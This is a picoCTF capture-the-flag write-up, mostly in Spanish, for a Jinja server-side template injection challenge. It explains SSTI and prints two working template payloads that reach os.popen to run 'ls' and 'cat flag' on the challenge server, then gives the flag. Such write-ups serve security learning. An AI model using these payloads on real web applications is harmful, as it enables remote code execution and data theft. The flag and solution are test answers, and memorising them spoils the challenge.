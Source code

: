 I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:56318/)!
Hints:
- Server Side Template Injection
# Solucion
Qué es la inyección de plantilla de Server-Side (SSTI)?
Server-Side Template Injection (SSTI) es una vulnerabilidad que surge cuando un atacante puede inyectar código malicioso en una plantilla del lado del servidor, lo que conduce a la ejecución no deseada. Este defecto se encuentra comúnmente en motores de plantilla como **Jinja**.
Una forma sencilla de detectar SSTI es a través **de la confusión**. Esto implica inyectar caracteres especiales como: $ .%[%'"-%.
Ahora, utilizando una carga útil más fuerte que realizará una **ejecución RCE** en el servidor. Primero usamos ls para comprobar los contenidos del directorio: {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read() }}
Y ahora usando el comando cat leeramos la bandera: {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read() }}

picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_3066c7bd}